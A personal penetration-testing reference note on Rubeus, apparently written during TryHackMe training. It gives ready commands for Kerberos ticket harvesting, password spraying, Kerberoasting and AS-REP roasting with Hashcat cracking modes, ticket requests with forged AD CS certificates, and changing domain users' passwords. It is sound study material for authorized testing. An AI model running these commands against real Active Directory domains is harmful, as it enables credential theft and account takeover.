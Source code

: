 # Using Rubeus

author:: Nathan Acks  
date:: 2022-05-11

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux’s `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the
# current machine. Probably works best when run on a
# domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users
# and generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known
# kerberoastable accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER \
                  /enctype:aes256 \
                  /certificate:$CERTIFICATE_FILE \
                  /password:$CERTIFICATE_FILE_PASSWORD \
                  /outfile:$TICKET_FILE \
                  /domain:$DOMAIN \
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we’ve used an AD CS misconfiguration as described by SpectreOps’ “Certified Pre-Owned” research to forge a certificate that’s valid for another user.

## Change a User’s Password

```powershell
# We can use Rubeus to change the password for domain
# users so long as our ticket is for a user with
# permission to do so (generally the user themselves or
# a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE \
                    /new:$NEW_PASSWORD \
                    /dc:$DC_IP_ADDRESS \
                    /targetuser:$DOMAIN\$USER
```

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)
* [2022-05-10 - TryHackMe: Jr. Penetration Tester (Supplements)](../log/2022-05-10-tryhackme-jr-penetration-tester-supplements.md)
* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [Using “certutil”](certutil.md)
